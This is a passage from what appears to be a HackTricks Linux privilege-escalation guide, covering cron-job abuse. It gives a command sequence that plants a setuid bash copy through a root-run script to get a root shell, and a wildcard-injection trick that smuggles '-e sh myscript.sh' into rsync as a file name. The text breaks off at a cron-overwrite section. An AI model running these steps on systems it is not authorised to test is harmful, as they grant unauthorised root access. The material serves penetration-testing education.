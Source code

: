 If inside this crontab the root user tries to execute some command or script without setting the path. For example: ** * * * root overwrite.sh*Then, you can get a root shell by using:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4477'%3e%3cg data-evernote-id='4478' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='4479' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='4480' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

67echo  'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'  > /home/user/overwrite.sh
68#Wait cron job to be executed
69/tmp/bash -p #The effective uid and gid to be set to the real uid and gid

##

Cron using a script with a wildcard (Wildcard Injection)[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4508'%3e%3cg data-evernote-id='4509' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='4510' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='4511' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation#cron-using-a-script-with-a-wildcard-wildcard-injection)

If a script being executed by root has a “*****” inside a command, you could exploit this to make unexpected things (like privesc). Example:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4522'%3e%3cg data-evernote-id='4523' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='4524' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='4525' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script

**If the wildcard is preceded of a path like**  ***/some/path/****  **, it's not vulnerable (even**  ***./****  **is not).**

Read the following page for more wildcard exploitation tricks:

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4561'%3e%3cg data-evernote-id='4562' class='js-evernote-checked'%3e%3cline x1='5' y1='12' x2='19' y2='12' data-evernote-id='4563' class='js-evernote-checked'%3e%3c/line%3e%3cpolyline points='12 5 19 12 12 19' data-evernote-id='4564' class='js-evernote-checked'%3e%3c/polyline%3e%3c/g%3e%3c/svg%3e) Wildcards Spare tricks  /linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)

##

Cron script overwriting and symlink[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='4578'%3e%3cg data-evernote-id='4579' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='4580' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='4581' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation#cron-script-overwriting-and-symlink)

If you **can modify a cron script** executed by root, you can get a shell very easily:
